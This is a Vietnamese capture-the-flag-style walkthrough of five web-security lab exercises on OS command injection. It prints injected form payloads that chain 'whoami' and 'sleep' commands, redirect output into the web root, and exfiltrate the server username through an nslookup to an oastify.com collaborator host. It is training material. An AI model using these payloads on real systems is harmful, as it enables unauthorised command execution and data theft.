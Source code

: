 # OS COMMAND INJECTION WRITEUP

## Lab 1: OS command injection, simple case

![](https://i.imgur.com/MYBr2LW.png)

Trang web chứa lỗ hổng `Command injection` trong chức năng kiểm tra số lượng sản phẩm còn lại. Biết rằng hệ thống sử dụng các tham số productId và storeId yêu cầu từ người dùng trả về kết quả sau khi thực thi lệnh `shell` tại server. Để giải quyết bài lab, chúng ta cần thực thi lệnh `whoami` trả về kết quả người dùng hiện tại trong server.

-Tại mục xem chi tiết sản phẩm, chức năng **Check stock** cho phép người dùng kiểm tra số lượng đơn hàng còn lại trong kho. Ta sử dụng burp suite để quan sát request. Chúng ta thấy request sử dụng phương thức POST truyền tới hệ thống hai tham số productId và storeId. Hai giá trị này có thể thay đổi tùy ý bởi người dùng.

![](https://i.imgur.com/WOUQVOn.png)

Do hệ thống truyền trực tiếp giá trị các tham số này vào câu lệnh `shell`, nên chúng ta có thể thay đổi giá trị nhằm thực thi lệnh `shell` tùy ý, chẳng hạn: Thực thi lệnh `id` xem user ID (uid), `group ID` nhóm (gid) và các nhóm mà họ là thành viên.

![](https://i.imgur.com/oAGY70h.png)

 Để giải quyết bài lab, chúng ta cần thực thi lệnh `whoami` trả về kết quả người dùng hiện tại trong server. Vì thế ta sẽ tiến hành sử dụng `|` để ngắt câu lệch và chuyền `whoami` để giải quyết bài lab

 ## Lab 2: Blind OS command injection with time delays

 ![](https://i.imgur.com/H0OtiJN.png)

- Trang web chứa lỗ hổng `Command injection` dạng blind trong chức năng feedback từ người dùng, tuy nhiên output không được hiển thị. Biết rằng hệ thống thực thi lệnh `shell` tại server với các tham số đầu vào từ người dùng. Để giải quyết bài lab, chúng ta cần khai thác lỗ hổng khiến hệ thống bị delay trong `10 giây`
- Chức năng `Submit feedback` cho phép người dùng nhập các trường `name, email, subject, messsage`. Những giá trị này được truyền tới hệ thống qua phương thức `POST`:

    ![](https://i.imgur.com/ioHf8zu.png)
 - Ở đây tôi có biết 1 câu lệnh khiến hệ thống ngủ 10 giây là: sleep 10. Vì vậy tôi sẽ tìm cách chèn nó vào:
 
    ![](https://i.imgur.com/155AlqP.png)
Ta thu được thời gian phải hồi là hơn 10 giây
    ![](https://i.imgur.com/ZLHJGCL.png)

## Lab 3: Blind OS command injection with output redirection

![](https://i.imgur.com/j3Ia0Ht.png)

- Để giải bài lab,thực hiện lệnh `whoami` và truy xuất kết quả.
- Ở đây là `output redirection` nên ta sẽ phân tích source 1 chút, chúng ta sẽ thấy hình ảnh được load lên bởi src=/image?filename=something.jpg

![](https://i.imgur.com/yQUgLrt.png)

Quay trở lại cái `form feedback`, chúng ta vẫn bắt lại request cũ và sửa lại thành
``` 
csrf=WdJgsNq7lhOxrWj7Wi0wvp1IlTKihtk4&name=admin&email=admin%40gmail.com+||+whoami>/var/www/images/output.txt+||+&subject=os+command+injection&message=n%2Fa%0A
```
// /var/www là folder chứa souce của web

![](https://i.imgur.com/gfGA06U.png)

- Quay ra trang chủ bắt 1 request load image và sửa lại tên filename thành tên file output.txt xem đã thực hiện thành công chưa.

![](https://i.imgur.com/SbReUJB.png)

![](https://i.imgur.com/XKsQfDV.png)

## Lab 4: Blind OS command injection with out-of-band interaction

![](https://i.imgur.com/YGC2kV0.png)

- Vẫn cách cũ nhưng lab này đã note là nên sử dụng `burp collaborator` (một công nghệ cho phép Burp phát hiện ra các lỗ hổng vô hình trên máy chủ) để poll ra những request connect tới

![](https://i.imgur.com/3MTat8e.png)

chúng ta sẽ nhận được những request đã connect tới

![](https://i.imgur.com/lQ31bb3.png)

## Lab 5: Blind OS command injection with out-of-band data exfiltration

![](https://i.imgur.com/3v8kimm.png)

- Vẫn thực hiện lại cách như lab 4, nhưng ở đây ta sẽ nối thêm `whoami` để lấy user

```
csrf=t4ggn9SP7kdomgEgX3tUouw5llXrNIoU&name=admin&email=admin%40gmail.com+||nslookup+`whoami`.v1x0ee89vinn7adybxzt885t8kej28.oastify.com+||&subject=os+command+injection&message=n%2Fa
```

![](https://i.imgur.com/D5CYbQI.png)

user: peter-xQ568l

![](https://i.imgur.com/PH07rMo.png)